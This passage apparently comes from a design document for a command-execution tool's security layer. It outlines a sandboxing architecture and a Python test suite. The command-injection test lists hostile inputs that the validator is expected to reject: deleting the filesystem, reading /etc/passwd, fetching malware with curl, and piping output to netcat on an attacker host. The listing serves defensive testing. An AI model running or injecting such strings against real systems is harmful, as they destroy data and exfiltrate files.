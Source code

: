 ```python
                    suggestion=self.get_educational_suggestion(result),
                    learnable=True
                )
        return ValidationResult(valid=True)
```

**Sandboxing Architecture**:
```yaml
Execution Layers:
  1. Input Validation:
     - Length limits (1000 chars)
     - Character whitelisting
     - Pattern blacklisting
     - Semantic validation
     
  2. Command Building:
     - No shell execution ever
     - Parameterized commands only
     - Argument validation
     - Path restrictions
     
  3. Execution Sandbox:
     - Minimal environment variables
     - Restricted filesystem access
     - No network access
     - Resource limits (CPU, memory, time)
     
  4. Output Sanitization:
     - HTML escaping
     - Path anonymization
     - Personal info removal
     - Size limits
```

**Security Test Suite**:
```python
# tests/security/test_phase2_security.py
class TestPhase2Security:
    def test_command_injection_prevention(self):
        """Test against OWASP top 10 command injection patterns"""
        injection_attempts = [
            "install firefox; rm -rf /",
            "install `cat /etc/passwd`",
            "install $(curl evil.com/malware)",
            "install firefox && wget evil.com",
            "install firefox | nc attacker.com 1337",
            "install firefox\n\nrm -rf /"
        ]
        
        for attempt in injection_attempts:
            result = security_validator.validate(attempt)
            assert not result.valid
            assert "security" in result.reason.lower()
            assert result.suggestion  # Educational feedback
    
    def test_sandbox_resource_limits(self):
        """Ensure sandbox enforces resource limits"""
        sandbox = CommandSandbox(
            max_cpu_seconds=5,
            max_memory_mb=100,
            max_output_bytes=1_000_000
        )
        
        # Test CPU limit
```